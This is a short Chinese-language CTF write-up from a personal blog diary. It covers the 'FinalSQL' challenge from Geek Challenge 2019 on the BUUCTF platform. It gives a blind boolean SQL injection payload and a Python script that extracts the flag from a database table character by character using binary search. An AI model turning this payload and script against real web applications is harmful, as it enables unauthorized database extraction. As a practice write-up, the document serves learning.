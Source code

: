 # buu摸鱼日记19

## [极客大挑战 2019]FinalSQL

现在做做，感觉geek题真的很适合入门，不仅不算很难而且确实很有新意

（还是做不来的我是人中屑）

做这个题走了一堆坑，还是修行不到家的结果

```sql
1^(ascii(substr((select(group_concat(password))from(geek.F1naI1y)),%d,1))<%d)^1
```

注意一下括号的书写问题，之前写进行绕过出一堆问题（调了两个小时）

```python
import requests

url="http://762745cd-b7dc-4d95-9666-f997bed452d5.node3.buuoj.cn/search.php"

flag = ""
tablename="F1naI1y,Flaaaaag"
column = "id,fl4gawsl"
for i in range(1,1000):
    high = 128
    low = 32
    mid = (high + low) // 2
    while(high>low):
        payload = {"id":"1^(ascii(substr((select(group_concat(fl4gawsl))from(geek.Flaaaaag)),%d,1))<%d)^1"%(i,mid)}
        r = requests.get(url=url,params=payload).text
        if "Click others~~~" in r:
            high = mid 
        else:
            low = mid + 1

        mid = (high + low) // 2

    # print(r)
    flag += chr(int(mid-1))
    print(flag)

```

网上有几个写法鸭羹就没用，好家伙，还我整了一晚上

